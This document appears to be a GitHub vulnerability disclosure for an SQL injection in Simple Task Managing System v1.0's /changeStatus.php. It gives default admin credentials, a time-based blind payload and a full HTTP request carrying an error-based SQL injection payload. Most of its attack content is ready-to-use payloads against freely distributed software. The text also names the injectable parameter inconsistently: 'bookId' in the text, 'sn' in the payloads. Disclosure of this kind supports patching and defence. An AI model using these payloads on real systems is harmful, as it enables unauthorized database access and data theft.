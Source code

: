 # Simple Task Managing System - SQL injection

Simple Task Managing System v1.0 exists to contain a SQL injection vulnerability via the bookId parameter at /changeStatus.php

username:admin password:admin ----> {ip}/changeStatus.php

Supplier： https://www.sourcecodester.com/php/15624/simple-task-managing-system-php-mysqli-free-source-code.html

/changeStatus.php has SQL injection

Payload: http://localhost:80/cve/Task Managing System in PHP/changeStatus.php?sn=test' AND (SELECT 9797 FROM (SELECT(SLEEP(5)))kKbl) AND 'PmTS'='PmTS&tn=1&status=2

SQL injection because $shortName can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/8.png)

## Payload

```sql
GET http://localhost/cve/Task%20Managing%20System%20in%20PHP/changeStatus.php?sn=test' AND ROW(6066,2526)>(SELECT COUNT(*),CONCAT(0x7171787a71,(SELECT (ELT(6066=6066,1))),0x71787a6a71,FLOOR(RAND(0)*2))x FROM (SELECT 5176 UNION SELECT 2058 UNION SELECT 2430 UNION SELECT 5444)a GROUP BY x) AND 'MkOa'='MkOa
 HTTP/1.1
Host: localhost
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/cve/Task%20Managing%20System%20in%20PHP/changeStatus.php?sn=test
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=hvkotkilavedcvtchro67huf9i
Connection: close


```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/9.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/10.png)